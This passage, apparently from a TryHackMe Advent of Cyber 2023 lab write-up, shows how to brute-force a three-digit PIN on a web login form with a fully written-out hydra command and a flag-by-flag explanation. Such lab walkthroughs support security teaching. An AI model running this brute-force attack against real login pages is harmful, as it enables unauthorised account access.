 - The method is `post`
- The URL is `http://<VICTIM_IP>:8000/login.php`
- The PIN code value is sent with the name `pin`

![Advent of Cyber Day 3 - Source Code](tryhackme/images/aoc2023d3_source_code.png)

In addition, when we input an incorrect PIN, we get an `Access denied` error:

![Advent of Cyber 2023 Day 3 - Access Denied](tryhackme/images/aoc2023d3_access_denied.png)

Using this information, we can craft our `hydra` command:

```console
$ hydra -l '' -P three_digit_codes.txt -f <VICTIM_IP> http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

To summarise, the above:

- `-l ''`: No username (blank)
- `-P three_digit_codes.txt`: |The password file to use
- `-f`: Stop after finding the password
- `<VICTIM_IP>`: IP address of target
- `http-post-form` Use `HTTP POST` requests
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php`: The page where the form is submitted
    - `pin=^PASS^`: Replaces `^PASS` with values from the  password list
    - `Access denied`: The error produced by the page if an incorrect code is submitted
- `-s 8000`: The port number on the target

Running this will give us the PIN:

![Advent of Cyber 2023 Day 3 - Hydra](tryhackme/images/aoc2023d3_hydra.png)
